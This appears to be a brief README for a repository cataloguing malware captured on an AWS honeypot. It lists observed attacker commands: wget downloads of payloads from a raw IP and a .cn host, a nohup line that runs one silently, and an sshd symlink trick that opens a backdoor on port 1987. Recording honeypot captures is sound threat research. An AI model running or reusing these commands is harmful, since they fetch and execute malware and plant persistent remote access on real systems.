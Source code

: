 # HoneypotFinds
Malware obtained from an AWS honeypot



198b22b04a - Very persistent attacker. 26 sessions logged

syn.sh     - wget http://58.218.66.85:12345/syn.sh   - Command used to download malware

888        - wget http://58.218.66.85:12345/888

666        - wget http://58.218.66.85:12345/666     

exp        - wget http://mdb7.cn:8081/exp
           -nohup /root/exp > /dev/null 2>&1 &

ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=1987

